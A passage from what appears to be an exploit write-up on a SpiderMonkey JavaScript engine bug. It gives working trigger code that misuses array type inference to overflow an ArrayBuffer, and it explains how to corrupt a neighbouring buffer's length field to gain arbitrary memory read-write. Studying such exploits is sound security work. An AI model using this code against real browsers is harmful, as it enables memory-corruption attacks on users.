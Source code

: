Now all we have to do is convert a buffer overflow to an arbitrary read-write primitive. This overflow is in the buffer of the `ArrayBuffer`. Now if the buffer is small enough (I think < 96 bytes, not sure though), then this buffer is inlined, or in other words, lies exactly after the metadata of the `ArrayBuffer` class. First lets take a look at the code that can achieve this overflow.

```js

buf = []
for(var i=0;i<100;i++)
{
  buf.push(new ArrayBuffer(0x20));
}

var abuf = buf[5];

var e = new Uint32Array(abuf);
const arr = [e, e, e, e, e];

function vuln(a1) {

    if (arr.length == 0) {
        arr[3] = e;
    }

    /*

    If the length of the array becomes zero then we set the third element of
    the array thus converting it into a sparse array without changing the
    type of the array elements. Thus spidermonkey's Type Inference System does
    not insert a type barrier.

    */

    const v11 = arr.pop();
    v11[a1] = 0x80
    for (let v15 = 0; v15 < 100000; v15++) {}
}

p = [new Uint8Array(abuf), e, e];
arr.__proto__ = p;

for (let v31 = 0; v31 < 2000; v31++) {
    vuln(18);
}

```

`buf` is an array of `ArrayBuffer`, each of size 0x20. In the memory, all these allocated `ArrayBuffer` will lie consecutively. Here is how they will be -

![buf_array](buf_array.png)  

Now if we have an overflow in the data buffer of the second element on the `buf` array, then we can go and edit the metadata of the consecutive `ArrayBuffer`. We can target the length field of the `ArrayBuffer`, which is the one that actually specifies the length of the data buffer. Once we increase that, the third `ArrayBuffer` in the `buf` array attains an arbitrary size. Thus now the data buffer of the third `ArrayBuffer` overlaps with the fourth `ArrayBuffer` and this allows us to leak stuff out from the metadata of the fourth `ArrayBuffer`!
